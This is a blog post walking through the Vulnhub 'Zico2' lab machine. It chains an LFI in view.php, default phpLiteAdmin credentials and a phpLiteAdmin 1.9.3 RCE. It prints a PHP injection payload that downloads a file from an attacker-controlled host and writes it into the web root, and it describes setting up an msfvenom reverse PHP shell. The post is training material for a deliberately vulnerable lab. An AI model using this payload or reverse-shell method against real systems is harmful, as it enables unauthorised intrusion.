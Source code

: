 ```yaml
---
layout: post
title: Vulnhub Zico 2
---
```

In this week, I´ve done another vulnhub machine, in this case [Zico2](https://www.vulnhub.com/entry/zico2-1,210/). In my opinion, it was easier than previous machines, both intrusion and privilege escalation steps. As it´s shown below, the host has two main services running, a SSH services and a web application:

![evidence1]({{ site.baseurl }}/images/zico2_01.png)

Analyzing the web application, a LFI vulnerability could be found in "page" get parameter of the "view.php" page:

![evidence2]({{ site.baseurl }}/images/zico2_02.png)

This vulnerability along with default credentials on phpLiteAdmin service (located in the web application in "http://192.168.10.17/dbadmin/") and a [RCE vulnerability in 1.9.3 version of that DBMS](https://www.exploit-db.com/exploits/24044/), could allow us inject and execute PHP code on remote host. First of all, I created a PHP payload with msfvenom that then I uploaded into the victim machine using the RCE vulnerability. Due to a problems with meterpreter payload, I used a more simple PHP shell payload, "php/reverse_php":

![evidence3]({{ site.baseurl }}/images/zico2_03.png)

Inside of the DBMS, you can find other Once it was done, I needed to upload the exploit. To do this, first of all I created a new database, called "hack.php", with only one table and one field. The PHP injection is executed in the default value of that value, that in our case was the next one:

```
<?php function dl($u, $o){$c = file_get_contents($u);file_put_contents($o, $c);}dl("http://192.168.10.12/zico.txt", realpath(realpath(dirname(__FILE__))) . "/zico.php")?>
```
For this phase, I tried to use other techniques to upload the file, for example, using the PHP function ["passthru"](http://www.hackingwithphp.com/4/12/0/executing-external-programs) and operative systems commands such "nc" or "wget" but it didn´t work fine. It was strange because using passthru is possible to execute other commands (such "find", "cat" and so on). Anyway, the exploit was correctly uploaded in "/usr/databases" folder, the next step was configuring the handler of metasploit to serve the reverse connection, and the execution through LFI vulnerability the PHP reverse exploit:



